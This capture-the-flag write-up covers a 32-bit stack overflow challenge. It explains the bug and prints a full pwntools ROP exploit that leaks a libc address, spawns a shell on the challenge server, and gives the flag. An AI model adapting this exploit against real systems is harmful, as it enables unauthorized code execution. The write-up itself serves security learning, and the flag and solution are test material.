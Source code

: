 # thoughts
Good Thoughts Bad Thoughts !

`nc 157.230.33.195 1111`

Flag Format: Trollcat{.*}

**Author : codackerA**

**Files**: `Thoughts.zip` (`vuln`, `libc.so.6`)

```sh
$ checksec thoughts.o   # vuln renamed
[*] 'thoughts.o'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
$ ../libc-database/identify thoughts.so.6   # libc.so.6 renamed
libc6_2.31-0ubuntu9.1_i386
```
## Solution
This challenge is pretty clearly for beginners... just putting my solution up so others can compare if they want.

Essentially, `read()` doesn't necessarily truncuate with nul-bytes, so you can use `bad[]+good[]` to overflow onto the stack when executing `bad()`. From there, abuse the lack of PIE to ROP to a shell.

```python
from pwnscripts import *
context.binary = 'thoughts.o'
context.libc_database = '../libc-database'
context.libc = 'thoughts.so.6'
r = remote('157.230.33.195', 1111)
def rop(chain: bytes):
    r.sendlineafter('> ', '1')
    r.sendline(b'a'*12 + chain)
    r.sendlineafter('> ', '2')
    r.send(b'a'*0x20)
    r.recvline()

R = ROP(context.binary)
R.puts(context.binary.got['puts'])
R.main()
rop(R.chain())
r.recvline()
context.libc.symbols['puts'] = unpack(r.recv(4))

R = ROP(context.libc)
R.system(context.libc.symbols['str_bin_sh'])
rop(R.chain())
r.interactive()
```
## Flag
`Trollcat{h4ck3rs_d0nt_n33d_b4d_th0ghts}`
